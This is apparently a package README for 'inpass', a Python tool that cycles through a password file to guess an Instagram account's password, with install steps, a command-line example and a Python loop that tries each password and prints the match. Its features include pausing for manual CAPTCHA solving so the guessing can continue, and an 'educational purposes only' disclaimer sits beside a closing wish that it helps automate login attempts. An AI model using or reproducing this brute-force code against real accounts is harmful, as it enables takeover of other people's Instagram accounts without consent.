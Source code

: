 #  inpass 1.1.2

`inpass` is a Python package designed for automated login attempts on Instagram. This package can help automate the login process using multiple passwords, handle CAPTCHA challenges, and track URL changes during login attempts.

## Features

- Automated login attempts for Instagram.
- Handles CAPTCHA challenges by pausing and allowing manual resolution.
- Tracks URL changes during the login process.
- Command-line interface (CLI) and programmatic usage supported.

## Installation

You can install the package using `pip`:

```bash
pip install inpass
```

## Usage

### Command-line Interface
- You can use the inpass package directly from the command line. Here’s how:
```bash
inpass --username your_username --password-file passwords.txt
```

### Programmatic Usage
- You can also use the inpass package programmatically in your Python scripts. Below is an example:

```python
import time
import inpass

username = "your_username"
password_file = "passwords.txt"

with open(password_file, 'r') as file:
    passwords = file.read().splitlines()

for password in passwords:
    if inpass.login(username, password):
        print(f"Password match: {password}")
        break
    else:
        print(f"Password {password} not matching")
    time.sleep(1)
else:
    print("All passwords failed.")
```
## License
This project is licensed under the MIT License. See the LICENSE file for details.

### Acknowledgments
Thank you to all the contributors and users who have supported the development of this project.

#### Disclaimer
This package is intended for educational and research purposes only. The author is not responsible for any misuse of this software.

- Thank you for using inpass. We hope it helps you automate your login attempts efficiently.
